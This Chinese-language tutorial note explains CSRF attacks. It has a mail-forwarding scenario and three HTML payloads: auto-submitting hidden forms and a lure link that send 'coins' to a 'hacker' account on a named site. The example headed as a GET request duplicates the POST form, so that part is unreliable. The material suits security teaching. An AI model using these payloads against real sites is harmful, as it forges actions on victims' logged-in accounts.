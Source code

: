 ### 什么是 CSRF 攻击

> 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求,CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

#### 例子

![img](https://static001.geekbang.org/resource/image/3d/6b/3d7f097b1d6a8f93a960a12892f1556b.png)

- 首先 David 发起登录 Gmail 邮箱请求，然后 Gmail 服务器返回一些登录状态给 David 的浏览器，这些信息包括了 Cookie、Session 等，这样在 David 的浏览器中，Gmail 邮箱就处于登录状态了。
- 接着黑客通过各种手段引诱 David 去打开他的链接，比如 hacker.com，然后在 hacker.com 页面中，黑客编写好了一个邮件过滤器，并通过 Gmail 提供的 HTTP 设置接口设置好了新的邮件过滤功能，该过滤器会将 David 所有的邮件都转发到黑客的邮箱中。
- 最后的事情就很简单了，因为有了 David 的邮件内容，所以黑客就可以去域名服务商那边重置 David 域名账户的密码，重置好密码之后，就可以将其转出到黑客的账户了。

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

- 自动发起 Get 请求

  ```html
  
  <!DOCTYPE html>
  <html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script> document.getElementById('hacker-form').submit(); </script>
  </body>
  </html>
  ```

- 自动发起POST请求

  ```html
  
  <!DOCTYPE html>
  <html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script> document.getElementById('hacker-form').submit(); </script>
  </body>
  </html>
  ```

- 引诱用户点击链接

  ```html
  
  <div>
    <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
    <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
      点击下载美女照片
    </a>
  </div>
  ```
